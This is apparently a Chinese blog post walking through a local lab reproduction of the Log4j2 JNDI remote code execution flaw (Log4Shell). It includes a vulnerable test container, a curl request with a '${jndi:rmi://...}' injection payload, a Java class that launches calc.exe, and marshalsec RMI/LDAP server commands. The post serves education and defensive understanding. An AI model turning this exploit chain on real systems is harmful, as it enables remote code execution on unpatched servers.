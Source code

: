```yaml
---
title: Log4j远程代码执行漏洞的复现
date: 2021-12-10
categories:  
    - 闲话编程
    - Java
---
```

Log4j2突然爆出个大漏洞，闹得全世界都在修这个问题。但这个问题到底能不能复现出来呢？花了一些时间，终于折腾出来了。

<!-- more -->

# 如何复现
## 准备复现环境

已经有安全平台准备了测试的docker镜像：

```bash
docker run -d -P vulfocus/log4j2-rce-2021-12-09:latest
```

反编译看了一下里面的内容，其实特别简单：

```java
@SpringBootApplication
@RestController
public class Log4j2RceApplication {
    private static final Logger logger = LogManager.getLogger(Log4j2RceApplication.class);

    public Log4j2RceApplication() {
    }

    public static void main(String[] args) {
        SpringApplication.run(Log4j2RceApplication.class, args);
    }

    @PostMapping({"/hello"})
    public String hello(String payload) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("{}", payload);
        logger.info("{}", payload);
        logger.info(payload);
        logger.error(payload);
        return "ok";
    }
}
```

当启动上面的程序后，直接调用就可以测试：

```bash
curl --request POST \
  --url http://localhost:8080/hello \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'payload=${jndi:rmi://localhost:1099/ExecTest}' \
  --data = \
  --data =
```

可以看到日志中打印出来JNDI相关的日志。但是我们的目标不仅于此，如何真正执行一些有意思的操作，比如开启个计算器？

## 编写恶意代码

准备一个简单的“恶意代码”，这个类在初始化的时候调用系统进程：

```java
public class ExecTest {
    public ExecTest() {
        try {
            System.out.println("You're Hacked!!!");
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将其编译为.class文件，并需要发布到网络地址上，最简单的是用Tomcat或者python来弄，比如：

```bash
cd target/classes
python3 -m SimpleHTTPServer 
```

## 启动RMI服务

使用https://github.com/mbechler/marshalsec可以快速启动RMI 或者LDAP，这个工具需要自己编译：

```bash
mvn clean package -D"maven.test.skip"=true
 java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:8000/#ExecTest
 # java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8080/\#ExecTest 1389
```

## 测试

在之前的请求内容中填上RMI的地址，${jndi:rmi://localhost:1099/ExecTest} 调用成功后即可弹出计算器。


* https://nosec.org/home/detail/4917.html
* https://github.com/apache/logging-log4j2/commit/7fe72d6
* https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/
* https://nvd.nist.gov/vuln/detail/CVE-2021-44228